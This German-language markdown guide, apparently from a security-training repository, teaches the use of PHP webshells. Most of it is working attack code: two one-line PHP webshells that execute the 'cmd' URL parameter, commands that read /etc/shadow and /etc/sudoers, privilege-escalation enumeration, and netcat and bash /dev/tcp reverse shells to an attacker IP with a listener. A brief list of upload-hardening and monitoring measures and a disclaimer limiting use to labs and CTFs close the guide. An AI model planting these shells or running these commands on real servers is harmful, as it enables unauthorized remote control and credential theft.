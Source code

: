 # 🐚 PHP WebShell Usage Guide

---

## Inhaltsverzeichnis

- [Einleitung](#einleitung)
- [Beispiel einer einfachen PHP Webshell](#beispiel-einer-einfachen-php-webshell)
- [Typische Webshell-Kommandos](#typische-webshell-kommandos)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Daten exfiltrieren oder Reverse Shell starten](#daten-exfiltrieren-oder-reverse-shell-starten)
- [Schutzmaßnahmen gegen PHP-Webshells](#schutzmaßnahmen-gegen-php-webshells)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.

---

## Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```

### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```

### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```

### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.

---

## Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.

---

## Siehe auch:

- [php_web_shell_bypass_tricks.md](/03-web-security/phpWebShell/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](/04-os-enumeration/post_exploitation_tools.md)
- [cmd_examples_from_shell.md](/03-web-security/phpWebShell/cmd_examples_from_shell.md)
- [php_rce_cheat_sheet.md](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
